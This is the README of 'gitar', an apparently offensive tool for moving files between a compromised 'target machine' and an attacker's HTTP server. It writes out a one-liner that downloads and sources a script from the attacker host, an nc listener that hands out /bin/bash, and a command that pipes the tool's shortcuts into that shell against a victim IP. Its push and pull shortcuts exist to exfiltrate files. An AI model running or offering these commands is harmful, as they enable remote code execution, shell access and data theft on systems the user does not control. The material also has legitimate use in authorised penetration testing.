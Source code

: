 <h1 align=center> 🎸  gitar ⇆</h1>

<div align="center">
<code>
<b>~></b> Have the  <b><i>simplest possible shortcuts </i></b> to upload/download file to/from the <q>target machine</q>

<b>~></b><b><i>No installation needed</i></b> on <q>target machine</q>
</code>
</div>



## TL;DR *- and listen music*

On my target machine:
 - **Download a file** to my attacker machine: `pull [file]`
 - **Upload a file** to my attacker machine: `push [file]`
 - **Upload a di1rectory** to my attacker machine: `pushr [file]`

*Before be able to use these shortcut you have to [set up](#set-up) both machines. Once again, the aim is to made it as simple as possible*

## Set up

### Pre-requisite

* Network connectivy trough http between attacker & target machine
*[target machine] <--http--> [Attacker machine]*

* On target machine: `nc`,`cat`, `curl` 
	* and `tar` for upload directory 

### Steps

 1. <sup>(Attacker machine)</sup> Launch the "server" : `./gitar -e [server_reachable_ip] -p [server_port]`
 2. <sup>(Target machine)</sup> get shortcuts from `/alias` endpoint and source them. The one-liner corresponding would be provided in 1. step: `curl -s http://[attacker_ip:port]/alias > /tmp/alias && source /tmp/alias && rm /tmp/alias`

**And that's all, you can now `push`or `pull` file [🎶](#tldr---and-listen-music)**

### Steps with a `nc` reverse shell

**~>** *Below are the steps to have shortcuts directly embedded in your `nc` reverse shell*
1. <sup>(Target machine)</sup> Launch your classic listener: `nc -nvlp 4444 -e /bin/bash`
2. <sup>(Attacker machine)</sup> Launch the "server" : `./gitar -e [server_reachable_ip] -p [server_port]`
3.  <sup>(Attacker machine)</sup> Connect to the reverse shell + load shortcut within: `export CMD=[get & source shortcuts one-liner] && (echo $CMD && cat) | nc [VICTIM_IP] 4444`

**And enjoy you revshell [🎶](#tldr---and-listen-music)**

## Enhancement 🛣️

**~>** *All improvements must keep `gitar` simple and don't add unlikely pre-requisites (especially for the target machine)*

**Useful cause we will expose our http server and thus we become the prey**
- HTTPS, basic authent (for the file server part)
- Command line to run server on a docker (or harden `gitar` with seccomp + apparmor + drop capabilities) 

**Improve UX**
- Soft to workaround limit due to `cat` use for reverse shell connection => autocompletion in reverse shell will not work as we have a pipe not a terminal. (To solve the pb we must have a prgm that creates a pseudoterminal, spawns a program connected to this pseudoterminal [see](https://stackoverflow.com/questions/5843741/how-can-i-pipe-initial-input-into-process-which-will-then-be-interactive) )
- Handle case when curl isn't on target machine (wget version?)
- Download directory support 
- Completion on target shell to help `pull` (path completion)
- An option to directly launch the reverse shell session with shortcut from `gitar`

